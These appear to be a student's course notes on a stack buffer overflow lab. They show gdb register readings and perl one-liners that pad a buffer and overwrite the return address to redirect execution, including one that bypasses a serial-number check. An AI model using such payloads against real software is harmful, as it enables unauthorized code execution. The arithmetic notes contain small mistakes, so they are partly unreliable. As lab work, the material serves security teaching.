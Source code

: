 # Week 3


gdb commands:\
step\
run\
break\
x/8x $esp\
info registers\
disas main


### Task1
In this task, find the ESP, EBP and Return address in the stack frames of the following functions: main, func1, and func2 when the following code is compiled and executed.

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task1a.png">
</p>

|Main Register|Main Address|
|:-----------:|-----------:|
|esp |0xffffd020|
|ebp|0xffffd038|
|main rtn|0x56556276|

|Fun1 Registers|Fun1 Address|
|:-----------:|-----------:|
|esp|0xffffd000|
|ebp|0xffffd018|
|fun1 rtn|0x5655622b|

|Fun2 Registers|Fun2 Address|
|:------:|-----:|
|esp|0xffffcfe0|
|ebp|0xffffcfe8|
|fun2 rtn|0x565561fc|

### Task2
In this task, discover buffer overflow vulnerability and exploit the program of the following code (i.e. print out the following message in the terminal “You have correctly ...Well done!”)

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task2.png">
</p>

### Task 3
In this task, discover buffer overflow vulnerability and exploit the program of the following code (e.g. executing the for loop in the vde_msg() function)


task3:
perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"; print "\xc9\x61\x55\x56";' > /tmp/task3input

the ending is the return address being replaced with the address of the function we want to run

in this case the addr is 0x565561c9 but we need to reverse it and then overflow to it
idk why we need to reverse it but we do. 44 A's and the addr

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task3a.png">
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task3b.png">
</p>


### Additional Task
Download the serial.c file from moodle. Then compile it and run the program. Try various inputs and see if you can discover any vulnerability and exploit the program (i.e. print the “The serial number is valid” on the command line).

(need to do)

**We can skip all validation and end up in the address of the final correct function.**
the input function is designated as a 24 char buffer inside the **validate_serial()** function.

when we are in the funtion using gdb we can type `i r` for (information registers) and check the esp & ebp. The ebp is 4 above the return address as the return address will always be stored in **ebp+4**. 

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task4a.png">
</p>

Here you can see we inputed "aaaa" and the esp/ebp currently is:
esp            0xffffcd80          0xffffcd80
ebp            0xffffcda8          0xffffcda8

and the serial function is at: 
(gdb) print &serial
$1 = (char (*)[24]) 0xffffcd88

if we **0xa8-0x84**(this is the addr of serial so we -4 to count from the start of the bytes) we get **169 - 132 = 36** and since the return address is **ebp+4** the next 4 bytes of the overflow needs to be the address we want and it has to be backwards.

(gdb) disas do_valid_stuff
Dump of assembler code for function do_valid_stuff:
   **0x565562d3** <+0>:     push   ebp

so with perl -e ' print "A"x36;print"\xd3\x62\x55\x56";' > file
we can input the output into the program and it will successd

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task4b.png">
</p>